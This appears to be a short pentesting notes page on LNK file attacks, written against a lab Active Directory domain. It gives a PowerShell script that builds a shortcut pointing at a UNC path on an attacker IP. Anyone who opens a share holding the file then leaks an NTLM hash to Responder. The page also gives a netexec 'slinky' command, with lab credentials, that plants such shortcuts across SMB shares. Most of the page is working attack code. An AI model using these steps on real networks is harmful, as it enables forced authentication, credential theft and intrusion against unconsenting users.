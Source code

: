 # 🗄️ LNK File Attacks

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\192.168.138.149\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

What will happen if we have responder listening and this file is triggered, we will get a hash and force auth:

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

good example:

{% embed url="https://infinitelogins.com/2020/12/17/capturing-password-hashes-via-malicious-lnk-files/" %}

everyone who will interact with this share will send us a hash, very malicious&#x20;

A good thing to know is :

```
netexec smb 192.168.138.137 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=192.168.138.149
```

{% embed url="https://www.infosecmatter.com/crackmapexec-module-library/?cmem=smb-slinky" %}

{% embed url="https://www.netexec.wiki/" %}

{% embed url="https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf" %}

